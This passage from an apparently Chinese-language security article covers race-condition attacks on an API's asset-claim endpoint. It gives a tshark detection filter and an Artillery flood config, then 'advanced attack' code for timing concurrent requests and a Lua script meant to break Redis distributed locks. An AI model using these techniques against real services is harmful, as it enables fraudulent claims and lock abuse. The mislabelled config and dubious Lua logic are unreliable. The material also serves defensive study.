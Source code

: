 ### 4.2 漏洞检测方法
#### 4.2.1 时序分析检测
```bash
# 使用tshark分析请求时序
tshark -r attack.pcap -T fields -e frame.time_delta \
-e ip.src -e http.request.uri | grep "/claim"
```

#### 4.2.2 压力测试验证
```javascript
// Artillery压测脚本
config:
  target: "https://api.example.com"
  phases:
    - duration: 10
      arrivalRate: 100
scenarios:
  - flow:
      - post:
          url: "/v1/assets/claim"
          json:
            userId: "attacker_123"
```

## 5. 高级攻击技术
### 5.1 时间窗口精准打击
通过测量网络延迟确定最佳并发间隔：
```python
import time
from statistics import stdev

latencies = []
for _ in range(100):
    start = time.time()
    requests.get(target_url)
    latencies.append(time.time() - start)

optimal_delay = max(0.001, stdev(latencies) * 3)
```

### 5.2 分布式锁绕过
针对Redis分布式锁的破解：
```lua
-- 恶意解锁脚本
if redis.call("get", KEYS[1]) == ARGV[1] then
    return redis.call("del", KEYS[1])
else
    for i=1,1000000 do
        redis.call('del', KEYS[1])
    end
    return 1
end
```
